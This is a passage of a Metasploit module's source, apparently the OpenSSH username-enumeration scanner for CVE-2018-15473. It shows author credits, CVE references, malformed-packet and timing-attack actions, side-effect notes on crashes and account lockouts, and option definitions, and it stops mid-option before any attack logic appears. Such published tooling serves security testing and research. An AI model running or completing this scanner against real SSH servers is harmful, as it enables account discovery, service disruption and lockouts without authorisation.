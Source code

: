 ```bash
        },
        'Author' => [
          'kenkeiras',     # Timing attack
          'Dariusz Tytko', # Malformed packet
          'Michal Sajdak', # Malformed packet
          'Qualys',        # Malformed packet
          'wvu'            # Malformed packet
        ],
        'References' => [
          ['CVE', '2003-0190'],
          ['CVE', '2006-5229'],
          ['CVE', '2016-6210'],
          ['CVE', '2018-15473'],
          ['OSVDB', '32721'],
          ['BID', '20418'],
          ['URL', 'https://seclists.org/oss-sec/2018/q3/124'],
          ['URL', 'https://sekurak.pl/openssh-users-enumeration-cve-2018-15473/']
        ],
        'License' => MSF_LICENSE,
        'Actions' => [
          [
            'Malformed Packet',
            {
              'Description' => 'Use a malformed packet',
              'Type' => :malformed_packet
            }
          ],
          [
            'Timing Attack',
            {
              'Description' => 'Use a timing attack',
              'Type' => :timing_attack
            }
          ]
        ],
        'DefaultAction' => 'Malformed Packet',
        'Notes' => {
          'Stability' => [
            CRASH_SERVICE_DOWN # possible that a malformed packet may crash the service
          ],
          'Reliability' => [],
          'SideEffects' => [
            IOC_IN_LOGS,
            ACCOUNT_LOCKOUTS, # timing attack submits a password
          ]
        }
      )
    )

    register_options(
      [
        Opt::Proxies,
        Opt::RPORT(22),
        OptString.new('USERNAME',
                      [false, 'Single username to test (username spray)']),
        OptPath.new('USER_FILE',
                    [false, 'File containing usernames, one per line']),
        OptBool.new('DB_ALL_USERS',
                    [false, 'Add all users in the current database to the list', false]),
        OptInt.new('THRESHOLD',
                   [
                     true,
                     'Amount of seconds needed before a user is considered ' \
```